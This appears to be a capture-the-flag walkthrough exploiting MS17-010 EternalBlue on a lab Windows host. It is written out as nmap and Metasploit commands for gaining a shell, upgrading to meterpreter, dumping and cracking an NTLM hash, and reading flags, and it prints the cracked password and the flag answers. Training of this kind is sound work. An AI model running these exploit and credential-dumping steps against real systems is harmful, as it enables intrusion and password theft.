 
# 🏆 CTF Walkthrough: MS17-010 Exploitation

## Table of Contents:
1. [Recon 🔍](#recon)
   - How many ports are open with a port number under 1000?
   - What is this machine vulnerable to?
2. [Gain Access 💻](#gain-access)
   - Exploitation Code Path
   - Setting Required Options
3. [Escalate 🚀](#escalate)
   - Convert Shell to Meterpreter
   - Migrate to New Process
4. [Cracking 🔓](#cracking)
   - Dumping Passwords
   - Cracking NTLM Hash
5. [Find Flags! 🎯](#find-flags)
   - Flag1
   - Flag2
   - Flag3

---

## Recon 🔍

### 1. How many ports are open with a port number under 1000? (Active Enumeration)
Run the following `nmap` scan:
```bash
nmap -Pn -A -sV 10.10.165.189
```

The open ports below 1000 are:

- **135/tcp** - Microsoft Windows RPC
- **139/tcp** - Microsoft Windows netbios-ssn
- **445/tcp** - Microsoft Windows SMB

Thus, there are **3** services running:
1. **msrpc** 🔐
2. **netbios-ssn** 🌐
3. **microsoft-ds** 🖥️

### 2. What is this machine vulnerable to? 🚨
The machine is vulnerable to **MS17-010**, which exploits a vulnerability in the SMB protocol known as **EternalBlue**.

---

## Gain Access 💻

### 1. Find the exploitation code we will run against the machine. What is the full path of the code?
Use `msfconsole` to search for **MS17-010**:
```bash
msf6 > search ms17-010
```

This will show the following relevant exploit:
```
exploit/windows/smb/ms17_010_eternalblue
```

### 2. Set up the exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set LHOST tun0
set RHOSTS 10.10.165.189
exploit
```

### 3. Show options and set the one required value. What is the name of this value?
The required option is **RHOSTS**, which is the target machine's IP address.

---

## Escalate 🚀

### 1. If you haven't already, background the previously gained shell:
```bash
ctrl + Z
```

### 2. Convert the shell to a meterpreter shell:
Search for the post module to upgrade the shell:
```bash
search shell_to
use post/multi/manage/shell_to_meterpreter
```

### 3. Set the required option and exploit:
```bash
show options
set SESSION 1
exploit
```

### 4. Migrate to another process:
Use the `migrate` command to stabilize the session:
```bash
ps
migrate <PROCESS_ID>
```

This will help ensure the session is moved to a more stable process. 🛠️

---

## Cracking 🔓

### 1. Dump password hashes with `hashdump`:
```bash
hashdump
```

The non-default user is **Jon**.

### 2. Crack the NTLM hash:
The NTLM hash is:
```
aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Use **hashcat** to crack the hash:
```bash
echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt
hashcat -m 1000 -a 0 hash.txt /path/to/wordlist.txt
```

The cracked password is: **alqfna22** 🔑

---

## Find Flags! 🎯

### 1. **Flag1**: Located at the system root.
```bash
cd C://
dir
type flag1.txt
```
Flag1 content: **flag{access_the_machine}** 💡

### 2. **Flag3**: Located in the Administrator's Documents folder.
```bash
cd Users/Jon/Documents
type flag3.txt
```
Flag3 content: **flag{admin_documents_can_be_valuable}** 📂

### 3. **Flag2**: Located in `System32/config`.
```bash
cd C:\Windows\System32\config
dir
type flag2.txt
```
Flag2 content: **flag{sam_database_elevated_access}** 🔒

---

## Conclusion 🏁

This walkthrough guides you through exploiting the **MS17-010 EternalBlue** vulnerability to gain access to a Windows machine, escalate privileges, dump passwords, crack hashes, and locate flags on the system. With persistence and the correct tools, lateral movement and privilege escalation are key to successfully solving the challenge. 🎉

---

📌 Created by c1ph3r1337 🕶️🔥
